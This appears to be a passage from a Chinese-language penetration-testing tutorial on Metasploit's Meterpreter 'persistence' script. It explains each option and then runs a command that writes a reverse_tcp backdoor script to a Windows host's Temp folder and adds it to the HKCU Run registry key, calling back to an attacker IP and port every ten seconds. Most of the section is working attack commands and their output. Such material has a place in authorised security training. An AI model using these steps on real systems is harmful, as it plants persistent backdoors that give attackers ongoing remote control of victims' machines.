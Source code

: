 ## persistence

首先查看帮助信息，发现官方也不推荐了，不过仍然很好用；

```
meterpreter > run persistence -h

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
Meterpreter Script for creating a persistent backdoor on a target host.

OPTIONS:

    -A        Automatically start a matching exploit/multi/handler to connect to the agent
    -L <opt>  Location in target host to write payload to, if none %TEMP% will be used.
    -P <opt>  Payload to use, default is windows/meterpreter/reverse_tcp.
    -S        Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T <opt>  Alternate executable template to use
    -U        Automatically start the agent when the User logs on
    -X        Automatically start the agent when the system boots
    -h        This help menu
    -i <opt>  The interval in seconds between each connection attempt
    -p <opt>  The port on which the system running Metasploit is listening
    -r <opt>  The IP of the system running Metasploit listening for the connect back
```

参数：

-P：设置Payload，默认为windows\/meterpreter\/reverse_tcp。该默认的payload生成的后门为32位程序。因此，当目标机器为64位系统时，留下的后门将无法运行；

-U：设置后门在用户登录后自启动。该方式会在HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run下添加注册表信息。推荐使用该参数；

-X：设置后门在系统启动后自启动。该方式会在HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run下添加注册表信息。由于权限问题，会导致添加失败，后门将无法启动。因此，在非管理员权限或者未进行BypassUAC操作情况下，不推荐使用该参数；

-i：设置反向连接间隔时间，单位为秒。当设置该参数后，目标机器会每隔设置的时间回连一次所设置的ip；

-p：设置反向连接的端口号。即黑阔用来等待连接的端口；

-r：设置反向连接的ip地址。即黑阔用来等待连接的ip；

执行：`run persistence -U -i 10 -p 4444 -r 192.168.43.100`

```
meterpreter > run persistence -U -i 10 -p 4444 -r 192.168.43.100

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
[*] Running Persistence Script
[*] Resource file for cleanup created at /Users/go0s/.msf4/logs/persistence/GO0S-PC_20180112.2629/GO0S-PC_20180112.2629.rc
[*] Creating Payload=windows/meterpreter/reverse_tcp LHOST=192.168.43.100 LPORT=4444
[*] Persistent agent script is 99646 bytes long
[+] Persistent Script written to C:\Users\Go0s\AppData\Local\Temp\SAaYfc.vbs
[*] Executing script C:\Users\Go0s\AppData\Local\Temp\SAaYfc.vbs
[+] Agent executed with PID 156
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\irZnsVkfdRUZIB
[+] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\irZnsVkfdRUZIB
```


[Go0s]: ~ 